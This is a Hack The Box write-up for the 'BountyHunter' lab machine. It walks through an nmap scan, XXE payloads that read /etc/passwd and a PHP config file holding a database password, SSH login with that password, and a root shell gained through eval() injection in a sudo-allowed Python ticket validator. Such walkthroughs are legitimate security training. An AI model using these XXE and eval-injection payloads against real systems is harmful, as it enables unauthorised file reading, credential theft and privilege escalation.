

```
Nmap scan report for bountyhunter.htb (10.129.181.132)
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Foothold

So this machine got a nice webpage on port 80:


Quick enumeration gives us an interesting js file `bountylog.js` relating to a `tracker_diRbPr00f314.php` file dirbuster couldn't find:
```js
function returnSecret(data) {
    return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
    try {
        var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
        <bugreport>
        <title>${$('#exploitTitle').val()}</title>
        <cwe>${$('#cwe').val()}</cwe>
        <cvss>${$('#cvss').val()}</cvss>
        <reward>${$('#reward').val()}</reward>
        </bugreport>`
        let data = await returnSecret(btoa(xml));
          $("#return").html(data)
    }
    catch(error) {
        console.log('Error:', error);
    }
}
```
This tells us to set up an own request to manipulate the database playing with the parameter `data`:



The payload is the following base64-url-encoded:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>

        <!DOCTYPE root [

        <!ENTITY c PUBLIC "bar" "/etc/passwd">]>
        <bugreport>
        <title>&c;</title>
        <cwe>DEF</cwe>
        <cvss>GHI</cvss>
        <reward>123</reward>
        </bugreport>
```
As answere we get:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

## User

So we have arbitary file read, let's search for something interesting..
Dirbuster tells us there is a `db.php` returning HTML-Code 200. Let's have look at that one.
We can include it with this payload (url and base64 encoded again):

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>

        <!DOCTYPE root [

        <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=./db.php">]>
        <bugreport>
        <title>&file;</title>
        <cwe></cwe>
        <cvss>GHI</cvss>
        <reward>123</reward>
        </bugreport>
```

The payload returns us this php in base64:
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

With the `/etc/passwd` and the `db.php` we got the credentials `development:m19RoAU0hP41A1sTsq6K` to login via ssh as user.


## Root

In the homedirectory is a `contrat.txt`:

```txt
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```

`sudo -l` gives us:
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

So let's get a look at this `ticketValidator.py`:

```python
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py 
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

We are especially interested in this `eval()`-stuff:

```py
validationNumber = eval(x.replace("**", ""))
```

So rooting relays on relative path' because of that `.md` and exploiting that `eval()`-function.

The python code tells us to use a exploit like this with `**` and an `int([...])`:
```text
development@bountyhunter:~$ cat a.md
# Skytrain Inc
## Ticket to Destination
__Ticket Code:__ blablabla
**704+int(__import__('os').system('/bin/bash'))
```

Just set up a md like shown above and hit `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` to get a root shell.
